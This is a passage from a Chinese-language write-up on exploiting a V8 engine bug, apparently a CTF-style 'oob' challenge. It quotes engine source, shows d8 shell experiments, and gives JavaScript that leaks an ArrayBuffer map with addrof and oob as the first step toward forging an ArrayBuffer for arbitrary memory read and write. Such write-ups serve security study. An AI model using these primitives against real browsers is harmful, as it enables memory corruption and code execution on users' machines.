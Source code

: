 分析调用栈后，发现写入地址是 `JSTypedArray::DataPtr()` 获取的：

```cpp
void* JSTypedArray::DataPtr() {
  // Zero-extend Tagged_t to Address according to current compression scheme
  // so that the addition with |external_pointer| (which already contains
  // compensated offset value) will decompress the tagged value.
  // See JSTypedArray::ExternalPointerCompensationForOnHeapArray() for details.
  STATIC_ASSERT(kOffHeapDataPtrEqualsExternalPointer);
  return reinterpret_cast<void*>(external_pointer() +
                                 static_cast<Tagged_t>(base_pointer().ptr()));
}
```

由 `external_pointer` 和 `base_pointer` 两项相加得出，并不会访问 `ArrayBuffer` 的 `backing_store`。推测是 `ArrayBuffer` 内部的缓冲区已经被提前拷贝到 `TypedArray` 结构中了，这样的话新建一个 `UInt8Array` 应该是可以的。

```bash
d8> u8a2 = new Uint8Array(buf)
0,0,0,0,253,253,253,253
d8> u8a2[0] = 0xdd
221
d8> u8a2[0]
221
d8> u8a
221,187,204,0,221,0,0,0
```

![](</assets/images/Pasted image 20220219201551.png>)

### 任意内存读写

伪造 `ArrayBuffer` 实现任意内存读写，分成下面几个步骤：

- 读取 `ArrayBuffer` 的 map
- 数组中伪造出 `ArrayBuffer`
- 利用 `fakeobj` 函数，得到伪造 `ArrayBuffer` 对象

读取 `ArrayBuffer` 的 map 的方法和读取对象数组的类似，创建一个包含 4 个元素的对象数组和一个 `ArrayBuffer`，这样对象数组的 `oob` 函数就可以读到 `ArrayBuffer` 的 map。

```javascript
function read_array_buffer_map() {
  obj = {}
  obj_arr = [obj, obj, obj, obj]
  arr_buf = new ArrayBuffer();
  map = obj_arr.oob();
  console.log(ftoi(map).toString(16));
  console.log(addrof(arr_buf).toString(16));
  %DebugPrint(obj_arr);
  %DebugPrint(arr_buf);
	return map;
}

```